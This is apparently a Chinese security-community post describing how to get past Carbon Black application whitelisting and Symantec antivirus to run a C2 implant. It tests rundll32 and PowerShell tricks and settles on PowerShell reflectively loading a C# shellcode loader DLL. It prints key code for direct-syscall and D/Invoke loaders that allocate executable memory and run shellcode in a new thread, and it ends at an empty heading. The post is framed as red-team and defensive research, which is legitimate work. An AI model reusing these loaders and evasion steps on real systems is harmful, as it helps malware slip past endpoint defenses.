# Symantec + EDR 极端白名单策略下的 C&C Bypass 研究 - 先知社区

Symantec + EDR 极端白名单策略下的 C&C Bypass 研究

- - -

## 前言

本文探究如何在安装有动态查杀能力极强的 AntiVirus 软件和 EDR 极端白名单策略的 Windows 环境下 Bypass 上线 C&C 服务器，并测试了两类不同方式执行的 ShellcodeLoader，希望能帮助 RedTeam 提供一些 EDR 终端侧对抗思路以及企业安全建设中终端侧的防御思路。

## 测试环境

-   EDR（Endpoint Detection and Response）- Carbonblack
-   AV（AntiVirus）- Symantec
-   普通用户权限，受到 UAC 保护，无法查询注册表等

Bit9 Inc 被 Carbon Black 收购并更名为 VMware Carbon Black，而 Carbon Black Application Whitelisting System 是一种安全技术，旨在帮助企业防止恶意软件和未授权软件的执行。它是由 Carbon Black 公司提供的一套解决方案，现已成为 VMware 的一部分。

Application Whitelisting（应用程序白名单）是一种安全策略，只允许预先批准的软件运行，从而阻止未授权的应用程序执行，并会弹窗告警（Bit9 Agent User Notification）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301225729-06a33720-d7dc-1.png)

### 0x01 直接运行 exe

直接执行 exe 被拦截，提示桌面进程 explorer.exe 运行未获批准的 exe 文件：

> 应用程序白名单系统已识别并暂停了 explorer.exe 运行 fesfse.exe 的尝试，因为该文件未获批准。选择“允许”以运行此文件，或选择“阻止”以在此时停止运行此文件：向下滚动查看诊断数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301225836-2e60055e-d7dc-1.png)

直接运行其他可执行文件如 .com .scr .cpl 等后缀结尾的可执行文件，均被拦截

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301225959-5ff753e2-d7dc-1.png)

### 0x02 使用 ps1 bat 脚本调用 exe

因为是应用程序白名单系统（Application Whitelisting System），尝试使用 powershell 脚本和 bat 脚本调用执行 exe，同样被拦截：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230049-7d82fcea-d7dc-1.png)

### 0x03 Rundll32 调用 exe

hw 中曾经在 webshell 场景下使用 rundll32 来绕过限制上线 C2，在这里尝试通过 rundll32 加载系统 url.dll 的导出函数 `FileProtocolHandler` 调用 API `ShellExecute` 函数来执行执行恶意 exe：

```plain
c:\windows\system32\rundll32.exe c:\windows\system32\url.dll,FileProtocolHandler C:/Users/xxx/Desktop/fesfse.exe
```

同样被拦截，警告 rundll32.exe 拉起了未经批准的文件

> 应用程序白名单系统识别并暂停了 rundll32.exe 运行 fesfse.exe 的尝试，因为该文件未经批准。选择 "允许 "允许该文件运行，或选择 "阻止 "阻止该文件运行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230147-a01798ec-d7dc-1.png)

### 0x04 Rundll32 调用 dll

猜测白名单已经限制了所有可执行文件后缀，rundll32 用于加载并运行 32 位动态链接库 (DLL)，尝试通过 rundll32 加载 shellcode 分离的恶意 dll，同样被拦截：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230212-aef3d42a-d7dc-1.png)

### 0x05 使用白加黑调用 dll

由于目录不可修改不可重命名，无权限替换或覆盖目标 dll，UAC 机制拦截后要求输入密码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230255-c8f65e88-d7dc-1.png)

### 0x06 使用 Powershell 加载 dll

测试发现使用 powershell 直接执行恶意代码，混淆和加密均会被 Symantec AntiVirus 拦截：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230319-d71ec194-d7dc-1.png)

尝试使用以下 powershell 脚本执行恶意 dll 脚本，同样被拦截：

```plain
Add-Type -Path "libepsxtest.dll"
[libepsxtest.Loader]::hello()
```

因为 Powershell 是基于 .NET Framework 构建的，尝试使用 `System.Reflection.Assembly` 方式反射加载一个做数学运算的 dll

```plain
namespace Math  
{  
    public class Methods  
    {  
        public static int CompareI(int a, int b)  
        {  
            if (a>b)  
                return a;  
            else  
                return b;  
        }  
        public int CompareII(int a, int b)  
        {  
            if (a>b)  
                return a;  
            else  
                return b;  
        }  
    }  
}
```

成功 Bypass 应用程序白名单机制执行 `CompareI` 和 `CompareII` 函数，并在控制台输出了最大值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230355-ec770060-d7dc-1.png)

### 0x07 使用 Powershell + Dll Loader 嵌套加载 dll

尝试通过 `11.ps1` 内存加载一个简单的 dll loader `Program.dll` 来执行恶意 dll `libepsxtest.dll`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230421-fbada2c8-d7dc-1.png)

11.ps1 脚本内容如下：

```plain
[void][System.Reflection.Assembly]::UnsafeLoadFrom("C:\Users\xxx\Desktop\Program.dll")
[Math.methods]::loaddll()
```

可以看到执行 Program.dll 并没有被拦截，但是拦截了恶意 dll `libepsxtest.dll` 的调用：

> 应用程序白名单系统识别并暂停了 powershell.exe 运行 libepsxtest.dll 的尝试，因为该文件未经批准。选择 "允许 "允许该文件运行，或选择 "阻止 "阻止该文件运行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230516-1c874134-d7dd-1.png)

### 0x08 使用 Powershell 反射加载 C# dll

既然执行 Program.dll 并没有被拦截，那只需要将一个 ShellcodeLoader 编译成 dll 再通过 `Reflection.Assembly` 方式加载即可上线 C2

这里同时为了绕过 EDR 对于 Windows API 的 hook，使用 SysCall 方式的 ShellcodeLoader 进行尝试：

> [https://github.com/Kara-4search/SysCall\_ShellcodeLoad\_Csharp](https://github.com/Kara-4search/SysCall_ShellcodeLoad_Csharp)

首先生成 C# 格式的 shellcode，硬编码到 buf1 数组：

```plain
// 存放 shellcode
byte[] buf1 = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
    ......
    0x63,0x2e,0x65,0x78,0x65,0x00
};
```

接着把主函数改造成一个外部可以调用的函数，把 C#的 shellcode loader 编成类库：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230845-9917a1c6-d7dd-1.png)

接着使用下面的 powershell 脚本反射加载恶意 dll：

```plain
[void][System.Reflection.Assembly]::UnsafeLoadFrom("C:\Users\xxx\Desktop\SysCall_ShellcodeLoad.dll")
[SysCall_ShellcodeLoad.Loader]::Execute()
```

可以看到成功上线到 C2 服务器：

!\[image-20240301173205246.png\]([https://xzfile.aliyuncs.com/media/upload/picture/20240301230913-a9f3a8f0-d7dd-1.png](https://xzfile.aliyuncs.com/media/upload/picture/20240301230913-a9f3a8f0-d7dd-1.png)

通过 [Process Explorer](https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer) 来监测此 powershell 脚本的进程行为，可以看到没有拉起任意进程成功执行了恶意 dll：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301230941-badaf04c-d7dd-1.png)

更换使用 D/Invoke 方式的 C# ShellcodeLoader 同样可以 Bypass 执行。

至此通过 PowerShell 反射加载 C# dll 执行恶意 shellcode 完成了绕过 Carbonblack 和 Symantec 组合极端策略限制下上线 C2。

## Bypass 思路原理分析

### PowerShell 反射调用 dll

当 `.dll` 文件通过 PowerShell 调用时被 Application Whitelisting System 拦截，而使用 `.NET` 的 `System.Reflection.Assembly` 类导入却能 Bypass 执行，这通常涉及到白名单机制如何识别和处理不同类型的文件执行和加载行为：

**1\. 执行上下文和识别机制**

-   **PowerShell 调用**：当使用 PowerShell 直接调用或执行 `.dll` 文件时，该操作通常会被 EDR（如 Carbon Black）以及杀毒软件作为一个可疑行为进行监控和识别。这是因为恶意软件经常利用 PowerShell 来执行和加载恶意代码。
-   **Reflection Assembly 加载**：使用 `.NET` 的 `System.Reflection.Assembly` 类来加载和执行 `.dll` 文件，这种方式更多地被视为正常的程序运行行为，尤其是在开发和运行基于 `.NET` 框架的合法应用程序时。

**2\. 安全策略和配置**

-   **安全策略差异**：Application Whitelisting 系统的配置可能专门针对通过命令行工具（如 PowerShell）启动的可疑活动进行了优化，而对于在高级语言环境（如 `.NET` 应用程序）内部发生的动态加载行为的检测可能较为宽松。
-   **应用程序信任级别**：在某些情况下，基于`.NET` 的应用程序可能被视为更可信的程序，特别是如果应用程序是由企业内部开发或由受信任的第三方提供。因此，这些应用程序执行的动态库加载可能不会受到相同程度的审查。

### SysCall\_ShellcodeLoad 方式

此方式主要依赖 `Auto_NativeCode.cs` 和 `Program.cs`

-   在 `Auto_NativeCode.cs` 中，关键代码涉及通过直接系统调用（Syscall）来绕过 API hooking，并动态执行 shellcode。首先，通过获取系统调用号（Syscall ID），然后构造并执行对应的汇编代码来完成这一过程。
-   `Program.cs` 中的关键代码演示了如何使用 `Auto_NativeCode.cs` 中定义的方法来分配内存、写入 shellcode，并通过创建新线程来执行 shellcode。

#### 获取系统调用号

通过 `GetProcAddress` 和 `ReadProcessMemory` 动态获取了指定系统函数（如`NtAllocateVirtualMemory`）的系统调用号（Syscall ID）。这是绕过 API hooking 的关键一步，因为它不直接调用 API，而是通过其 Syscall ID 来执行：

```plain
public static uint GetSyscallID(string SysFunName)
{
    uint SyscallID = 0;
    IntPtr SyscallID_mem = Marshal.AllocHGlobal(Marshal.SizeOf(SyscallID));
    RtlZeroMemory(SyscallID_mem, Marshal.SizeOf(SyscallID));

    IntPtr hModule = GetModuleHandle("ntdll.dll");
    IntPtr FunAddr = GetProcAddress(hModule, SysFunName);
    IntPtr CallAddr = FunAddr + 4;

    uint temp;
    bool read_result = ReadProcessMemory(GetCurrentProcess(), CallAddr, SyscallID_mem, 4, out temp);

    SyscallID = (uint)Marshal.ReadInt32(SyscallID_mem);
    return SyscallID;
}
```

#### 动态执行系统调用

通过拼接字节数组构造出汇编代码，该代码中包含了动态获取的 Syscall ID。然后，使用 `VirtualProtectEx` 修改内存属性为可执行，最后通过将字节数组转换为函数指针并执行，达到绕过 API hooking 的目的

```plain
uint SyscallID = Auto_NativeCode.GetSyscallID("NtAllocateVirtualMemory");
byte[] syscall1 = SYSbyte1;
byte[] syscallid = { (byte)SyscallID };
byte[] syscall2 = SYSbyte2;
byte[] sysfinal = syscall1.Concat(syscallid).Concat(syscall2).ToArray();

unsafe
{
    fixed (byte* ptr = sysfinal)
    {
        IntPtr memoryAddress = (IntPtr)ptr;
        if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress, (UIntPtr)sysfinal.Length, PAGE_EXECUTE_READWRITE, out uint oldprotect))
        {
            throw new Win32Exception();
        }

        DelegatesStruct.NtAllocateVirtualMemory assembledFunction = (DelegatesStruct.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(DelegatesStruct.NtAllocateVirtualMemory));

        return (uint)assembledFunction(ProcessHandle, ref BaseAddress, ZeroBits, ref RegionSize, AllocationType, Protect);
    }
}
```

#### 分配内存并写入 shellcode

`Program.cs` 首先定义了一个名为 `buf1` 的字节数组用来存放硬编码的 shellcode 用于展示如何执行任意代码，接着通过调用 `Auto_NativeCode.NtAllocateVirtualMemory` 系统调用分配内存，然后使用 `Marshal.Copy` 将 shellcode 复制到分配的内存中：

```plain
uint ntAllocResult = Auto_NativeCode.NtAllocateVirtualMemory(
    GetCurrentProcess(), 
    ref pMemoryAllocation, 
    pZeroBits, 
    ref pAllocationSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
Marshal.Copy(buf1, 0, (IntPtr)(pMemoryAllocation), buf1.Length);
```

#### 创建线程执行 shellcode

通过调用 `Auto_NativeCode.NtCreateThreadEx` 方法创建一个新线程来执行 shellcode。这个方法构造了另一个用于调用 `NtCreateThreadEx` 的 shellcode，并通过该 shellcode 创建一个线程来执行之前复制到分配内存的 shellcode：

```plain
uint hThreadResult = Auto_NativeCode.NtCreateThreadEx(   
    out hThread,
    STANDARD_RIGHTS_ALL | SPECIFIC_RIGHTS_ALL, 
    IntPtr.Zero, 
    GetCurrentProcess(), 
    pMemoryAllocation, 
    IntPtr.Zero, 
    false, 
    0,
    0xFFFF,
    0xFFFF, 
    IntPtr.Zero
);
```

### D/Invoke\_shellcodeload 方式

此方式主要依赖 `DInvokeFunctions.cs` 和 `Program.cs`

-   在 `DInvokeFunctions.cs` 中，定义了多个方法来实现 D/Invoke，即直接调用内存中的函数而不是通过常规的 API 调用。这主要用于绕过防护机制，如 API hooking。
-   在 `Program.cs` 中，展示了如何使用 `DInvokeFunctions` 类中的方法来动态调用 `kernel32.dll` 的 `VirtualAlloc`, `CreateThread`, 和 `WaitForSingleObject` 函数，以在内存中分配空间、执行 shellcode，并等待线程结束。

#### 获取已加载模块地址

`GetLoadedModuleAddress` 方法使用 `Process.GetCurrentProcess().Modules` 获取当前进程的模块集合，接着遍历当前进程加载的模块，返回指定模块的基地址：

```plain
public static IntPtr GetLoadedModuleAddress(string DLLName)
{
    ProcessModuleCollection ProcModules = Process.GetCurrentProcess().Modules;
    foreach (ProcessModule Mod in ProcModules)
    {
        if (Mod.FileName.ToLower().EndsWith(DLLName.ToLower()))
        {
            return Mod.BaseAddress;
        }
    }
    return IntPtr.Zero;
}
```

#### 获取函数地址

`GetLibraryAddress` 方法利用 `GetLoadedModuleAddress` 获取模块的基地址，接着调用 `GetExportAddress` 根据模块基地址和函数名获取函数的内存地址：

```plain
public static IntPtr GetLibraryAddress(string DLLName, string FunctionName, bool CanLoadFromDisk = false)
{
    IntPtr hModule = GetLoadedModuleAddress(DLLName);
    return GetExportAddress(hModule, FunctionName);
}
```

这是 D/Invoke 调用的关键，有了函数地址，就可以构造函数委托并直接调用。

> 在C#中，委托（Delegate）是一种特殊的类型，它定义了方法的签名（即方法的返回类型和参数列表），并可以持有对具有相同签名的方法的引用。委托可以被看作是对函数的封装，允许将方法作为参数传递，或将其赋值给变量。

#### 调用 VirtualAlloc 分配内存

通过 D/Invoke `DInvokeFunctions.GetLibraryAddress` 函数获取 `VirtualAlloc` 函数地址，然后通过 `Marshal.GetDelegateForFunctionPointer` 委托调用 `VirtualAlloc` 函数，分配内存空间以存放 shellcode。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAlloc");
DELEGATES.VirtualAllocRx VirtualAllocRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.VirtualAllocRx)) as DELEGATES.VirtualAllocRx;
IntPtr rMemAddress = VirtualAllocRx(0, (uint)codepent.Length, 0x1000 | 0x2000, 0x40);
```

#### 将 shellcode 复制到分配的内存并创建线程执行

使用 `Marshal.Copy` 将 shellcode 复制到之前通过 `VirtualAlloc` 分配的内存中。然后，通过 D/Invoke 调用 `CreateThread` 函数创建一个新线程，线程的入口点是 shellcode 的内存地址，从指定内存地址开始执行 shellcode。

```plain
Marshal.Copy(codepent, 0, (IntPtr)(rMemAddress), codepent.Length);
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateThread");
DELEGATES.CreateThreadRx CreateThreadRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.CreateThreadRx)) as DELEGATES.CreateThreadRx;
hThread = CreateThreadRx(0, 0, rMemAddress, pinfo, 0, ref threadId);
```

#### 等待线程结束

最后通过 `DInvokeFunctions.GetLibraryAddress` 获取 `WaitForSingleObject` 函数的地址并转换为委托，接着通过 D/Invoke 调用 `WaitForSingleObject` 函数等待 shellcode 执行完成的线程结束。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WaitForSingleObject");
DELEGATES.WaitForSingleObjectRx WaitForSingleObjectRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.WaitForSingleObjectRx)) as DELEGATES.WaitForSingleObjectRx;
WaitForSingleObjectRx(hThread, 0xFFFFFFFF);
```

> 在 D/Invoke 场景中，委托是一种允许程序动态调用任意函数地址的机制。通过这种方式，可以在不直接链接到函数的情况下执行其代码，增加了代码的灵活性和隐蔽性，可以看到 D\\Invoke ShellcodeLoader 的 API 调用未被 API 监控程序捕获：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301231042-deccef46-d7dd-1.png)

### 两种方式的区别

